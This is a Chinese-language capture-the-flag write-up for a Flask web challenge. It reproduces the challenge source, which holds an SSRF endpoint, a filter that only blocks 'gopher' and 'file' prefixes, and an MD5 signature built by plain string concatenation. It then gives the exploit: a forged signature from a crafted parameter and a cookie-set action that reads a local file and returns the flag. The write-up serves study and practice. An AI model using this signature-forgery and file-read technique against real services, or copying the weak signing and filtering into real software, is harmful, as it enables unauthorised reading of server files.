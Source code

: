![[Pasted image 20221214153844.png]]

---
首页长这样
![[Pasted image 20221214154030.png]]
心肺停止，你python都能代码压缩的吗
```python
#!/usr/bin/env python
#encoding=utf-8
from flask import Flask
from flask import request
import socket
import hashlib
import urllib
import sys
import os
import json
import imp

imp.reload(sys)

app = Flask(__name__)
secert_key = os.urandom(16)

class Task:
    def __init__(self, action, param, sign, ip):
        self.action = action
        self.param = param
        self.sign = sign
        self.sandbox = md5(ip)
        if(not os.path.exists(self.sandbox)): #SandBox For Remote_Addr
            os.mkdir(self.sandbox)

    def Exec(self):
        result = {}
        result['code'] = 500
        if (self.checkSign()):
            if "scan" in self.action:
                tmpfile = open("./%s/result.txt" % self.sandbox, 'w')
                resp = scan(self.param)
                if (resp == "Connection Timeout"):
                    result['data'] = resp
                else:
                    print(resp)
                    tmpfile.write(resp)
                    tmpfile.close()
                    result['code'] = 200
            if "read" in self.action:
                f = open("./%s/result.txt" % self.sandbox, 'r')
                result['code'] = 200
                result['data'] = f.read()
                if result['code'] == 500:
                    result['data'] = "Action Error"
        else:
            result['code'] = 500
            result['msg'] = "Sign Error"
            return result

    def checkSign(self):
        if (getSign(self.action, self.param) == self.sign):
            return True
        else:
            return False

#generate Sign For Action Scan.
@app.route("/geneSign", methods=['GET', 'POST'])
def geneSign():
    param = urllib.request.unquote(request.args.get("param", ""))
    action = "scan"
    return getSign(action, param)

@app.route('/De1ta',methods=['GET','POST'])
def challenge():
    action = urllib.request.unquote(request.cookies.get("action")) # Get action from cookie
    param = urllib.request.unquote(request.args.get("param", "")) # Get param from url query
    sign = urllib.request.unquote(request.cookies.get("sign")) # Get sign from cookie
    ip = request.remote_addr
    if(waf(param)):
        return "No Hacker!!!!"
    task = Task(action, param, sign, ip)
    return json.dumps(task.Exec())

@app.route('/')
def index():
    return open("code.txt","r").read()

def scan(param):
    socket.setdefaulttimeout(1)
    try:
        return urllib.request.urlopen(param).read()[:50]
    except:
        return "Connection Timeout"

def getSign(action, param):
    return hashlib.md5(secert_key + param + action).hexdigest()

def md5(content):
    return hashlib.md5(content).hexdigest()

def waf(param): # param should not start with gopher or file
    check=param.strip().lower()
    if check.startswith("gopher") or check.startswith("file"):
        return True
    else:
        return False

if __name__ == '__main__':
    app.debug = False
    app.run(host='0.0.0.0',port=80)
```
格式化代码比读代码还累.jpg

这波是吃了文化的亏，`python2`的`urlopen`原来不指定协议的时候默认就是`file`协议QAQ

总体思路就是利用`getSign`拼接顺序的漏洞绕过`Task.checkSign`和`geneSign`共同构成的对可用`action`的限制
令`param='flag.txtread'`，通过`geneSign`拼接而成的`md5(secret_key + 'flag.txtreadscan')`同指定`param='flag.txt'` `action='readscan'`相同

---
**获取`Sign`**
```php
/geneSign?param=flag.txtread
```
> 61dc9e0bbd275404f5bc301cf7b2ebde

---
**获取`flag`**
```php
/De1ta?param=flag.txt
```

**`Cookie`**
```http
Cookie: action=readscan; sign=61dc9e0bbd275404f5bc301cf7b2ebde
```
> {"code": 200, "data": "flag{6bbd3cad-1afd-4883-948c-70061755f1f3}\n"}

#Web #python #绕过 #SSRF #HTTP #函数 